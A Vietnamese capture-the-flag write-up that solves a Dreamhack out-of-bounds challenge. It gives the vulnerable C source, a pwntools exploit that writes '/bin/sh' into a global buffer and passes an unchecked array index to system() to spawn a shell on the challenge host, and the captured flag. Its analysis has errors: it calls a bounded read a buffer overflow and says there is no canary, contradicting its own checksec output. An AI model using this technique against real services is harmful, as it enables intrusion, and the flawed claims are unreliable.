 **1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main()
{
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}

```

- Chương trình cho phép nhập tên vào biến `name`. Ở đây không giới hạn độ dài chuỗi nhập vào nên có lỗi `bof`.
- Sau đó cho phép nhập vào biến `idx` 1 số rồi lại chạy `system` tại mảng `command` ở vị trí vừa nhập. Ở mảng `command` không có chuỗi nào tạo shell được.

**2. Ý tưởng**
Dùng lệnh `checksec` kiểm tra:

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Ta thấy không có `canary` nên có thể thực hiện như sau.

- Ở biến `name` đang là ở 1 vị trí nào đó của mảng `command`. Nên nhập chuỗi `/bin/sh` rồi tìm vị trí thích hợp để in gọi nó vào hàm `system` là xong.

**3. Khai thác**

Đặt breakpoint ở lệnh `read` để xem biến `name` cách `command` bao xa

![check.png](photo/check.png)

Ta thấy 2 biến cách nhau 76 byte. Vậy biến `name` đang ở vị trí `command[19]`.

Ta có script như sau:

```
from pwn import *

exe = ELF('out_of_bound', checksec=False)
#r = process(exe.path)
r = remote('host2.dreamhack.games', 18239)

payload = p32(0x804a0b0)
payload += b'/bin/sh\x00'
r.sendafter(b'name: ', payload)
r.sendlineafter(b'want?: ', b'19')
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

`Flag: DH{2524e20ddeee45f11c8eb91804d57296}`